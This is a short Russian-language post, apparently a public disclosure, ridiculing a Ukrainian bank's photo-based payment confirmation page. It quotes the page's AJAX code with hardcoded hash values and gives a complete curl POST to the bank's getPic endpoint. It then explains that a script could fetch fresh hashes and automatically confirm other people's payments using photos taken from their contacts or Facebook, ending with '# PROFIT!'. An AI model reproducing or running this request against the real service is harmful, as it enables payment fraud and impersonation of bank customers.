 # https://pb.ua/photo/ и Детский Сад

Привет-банк в очередной раз порадовал профессионализмом своих разработчиков.

https://pb.ua/photo/ созданная якобы для "безопасности" клиентов == одна огромная дыра.

При каждом новом открытии сайта "для дополнительной безопасности транзакций" меняется только одна строка с якобы случайным числом/хешем/строкой захардкоженым прямо в post запрос:

```
	$.ajax({
		type : "POST",
		url : "getPic",
		contentType: 'application/json',
		dataType: 'text',
		data : '{ "url":"'+dataUrl+'", "phone":"'+$("#phone").val()+'","isFromCamera":"'+$("#ph_type").val()+'","hash":"20ca1639033e72c5d534d0f5c9f69dd291dda12261bb45b319ea267d21c6164e","hash2":"afdb2b7e88629c710e935c58ff33e827b60012d1c1f7f1c4bfced497e4375735"}',				
		success: function(data, textStatus, jqXHR ){
			show_prog('none');
		},
```

Судя по коду, это единственная попытка сделать хоть что-то для защиты от "хакеров" из десткого сада.

Реальной безопасности - 0. 

Буквально за полчаса можно написать скрипт, который будет спрашивать новый хеш прямо с сайта https://pb.ua/photo/ и вставлять его внутрь заранее подготовленного POST curl:

```
curl 'https://pb.ua/photo/getPic' -H 'X-NewRelic-ID: VgAEV1RTGwABU1NSAAQ=' -H 'Origin: https://pb.ua' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.8,ru;q=0.6,uk;q=0.4' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36' -H 'Content-Type: application/json' -H 'Accept: text/plain, */*; q=0.01' -H 'Referer: https://pb.ua/photo/' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' --data-binary '{ "url":"data:image/png;base64,iVBORw0K...==", "phone":"+380991234567","isFromCamera":"Y","hash":"123","hash2":"456"}' --compressed
```

что дает возможность "подтверждать" платежи любого человека в автоматическом режиме, используя фотографию из контакта/фейсбука к примеру

# PROFIT!
